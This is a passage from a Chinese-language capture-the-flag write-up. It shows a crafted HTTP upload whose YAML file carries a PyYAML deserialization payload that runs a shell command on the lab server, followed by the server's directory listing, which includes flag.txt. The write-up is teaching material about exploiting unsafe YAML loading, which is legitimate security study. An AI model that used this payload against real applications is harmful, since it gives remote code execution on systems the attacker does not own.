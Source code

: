 }
</pre>
<p nodeIndex="77"><span nodeIndex="225">接下来就要进入漏洞利用阶段了，但是我们目前还是跟盲人摸象一样得一步一步慢慢摸索。我们首先利用BurpSuite尝试向文档内容中注入Payload，然后再将该文档上传。</span></p>
<p nodeIndex="78"><span nodeIndex="226"><strong nodeIndex="227"><span nodeIndex="228">HTTP请求</span></strong></span></p>
<pre class="brush:html;toolbar:false" nodeIndex="79">
POST / HTTP/1.1
Host: ganon.39586ebba722e94b.ctf.land:8001
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://ganon.39586ebba722e94b.ctf.land:8001/
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------200783363553063815533894329
Content-Length: 445
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml
 
---
!!map {
  ? !!str "goodbye"
  : !!python/object/apply:subprocess.check_output [
    !!str "ls",
  ],
}
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="upload"
 
 
-----------------------------200783363553063815533894329--
 
<ul><li><code>goodbye</code> : <code>Dockerfile
README.md
app.py
app.pyc
bin
boot
dev
docker-compose.yml
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
requirements.txt
root
run
sbin
srv
static
sys
templates
test.py
tmp
usr
var